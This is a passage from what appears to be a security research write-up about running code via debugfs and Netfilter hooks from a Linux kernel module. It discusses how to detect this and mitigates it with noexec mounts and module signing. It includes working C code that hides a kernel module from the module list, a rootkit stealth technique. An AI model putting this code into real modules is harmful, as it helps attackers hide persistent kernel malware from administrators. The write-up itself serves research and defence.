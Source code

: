 If I were to add the ability to hide a kernel module (which can be done trivially through the following code), discovery would be very difficult. Long-running processes executing through this technique would be obvious as there would be a process with a high pid number, owned by root, and running `<interpreter> /sys/kernel/debug/debug_exec`. However, if there was no active execution, it leads me to believe that the only method of discovery would be a secondary kernel module that analyzes custom Netfilter hooks.

```C
struct list_head *module;
int module_visible = 1;

void module_unhide(void){
	if (!module_visible){
		list_add(&(&__this_module)->list, module);
		module_visible++;
	}
}

void module_hide(void){
	if (module_visible){
		module = (&__this_module)->list.prev;
		list_del(&(&__this_module)->list);
		module_visible--;
	}
}
```

## Mitigation

The simplest mitigation for this is to remount debugfs as `noexec` so that execution of files on it is prohibited. To my knowledge, there is no reason to have it mounted the way it is by default. However, this could be trivially bypassed. An example of execution no longer working after remounting with `noexec` can be found in the screenshot below.

For kernel modules in general, module signing should be required by default. Module signing involves cryptographically signing kernel modules during installation and then checking the signature upon loading it into the kernel. "[This allows increased kernel security by disallowing the loading of unsigned modules or modules signed with an invalid key. Module signing increases security by making it harder to load a malicious module into the kernel.](https://www.kernel.org/doc/html/v4.16/admin-guide/module-signing.html)"

{{< image >}}